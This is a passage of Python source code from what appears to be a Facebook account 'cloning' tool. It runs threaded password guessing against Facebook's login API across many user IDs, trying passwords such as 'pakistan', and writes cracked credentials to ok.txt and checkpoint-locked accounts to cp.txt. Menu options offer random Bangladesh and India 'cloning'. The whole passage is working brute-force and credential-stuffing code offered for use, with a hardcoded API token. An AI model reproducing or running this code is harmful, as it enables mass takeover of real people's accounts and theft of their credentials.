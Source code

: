 		                                                print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass6+"\x1b[1;91m | \x1b[1;97m"+name)
		                                                cp=open("cp.txt","a")
		                                                cp.write(uid+" | "+pass6+"\n")
		                                                cp.close()
		                                                cps.append(uid)
		                                            else:
		                                                if 'access_token' in d:
		                                                    print("\t\x1b[1;92m[Successfull] "+uid+" | "+pass6+" | "+name)
		                                                    ok=open("ok.txt","a")
		                                                    ok.write(uid+" | "+pass6+"\n")
		                                                    ok.close()
		                                                    oks.append(uid)
		                                                else:
		                                                    pass7="pakistan"
		                                                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass7 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                                                    d=json.loads(q)
		                                                    if 'www.facebook.com' in d['error_msg']:
		                                                        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass7+"\x1b[1;91m | \x1b[1;97m"+name)
		                                                        cp=open("cp.txt","a")
		                                                        cp.write(uid+" | "+pass7+"\n")
		                                                        cp.close()
		                                                        cps.append(uid)
		                                                    else:
		                                                        if 'access_token' in d:
		                                                            print("\t\x1b[1;92m[Successfull] "+uid+" | "+pass7+" | "+name)
		                                                            ok=open("ok.txt","a")
		                                                            ok.write(uid+" | "+pass7+"\n")
		                                                            ok.close()
		                                                            oks.append(uid)
		                                        
									
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print("\033[1;97m--------------------------------------------------")
	print ('\033[1;97m[+]\033[1;97m Process Has Been Completed')
	print('\033[1;97m[+]\033[1;97m Total CP/OK:\033[0;97m  '+str(len(cps))+'/\033[1;97m '+str(len(oks)))
	print("\033[1;97m--------------------------------------------------")
	raw_input("Press Enter To Main Menu Back")
	menu()
		
def bangla_india():
    os.system("clear")
    print logo
    os.system("python3 .loading.md")
    os.system('clear')
    print logo
    print("\033[1;97m[1]\033[1;91m-⋄-\033[1;97mRandom Bangladesh Cloning")
    print("\033[1;97m[2]\033[1;91m-⋄-\033[1;97mRandom India Cloning")
    print("\033[1;97m[0]\033[1;91m-⋄-\033[1;97mBack")	
    print("\033[1;97m--------------------------------------------------")
    bangla_india_man()
def bangla_india_man():
    option = raw_input("\n╰─➣ ")
    if option =="1":
        bangla()
    if option =="2":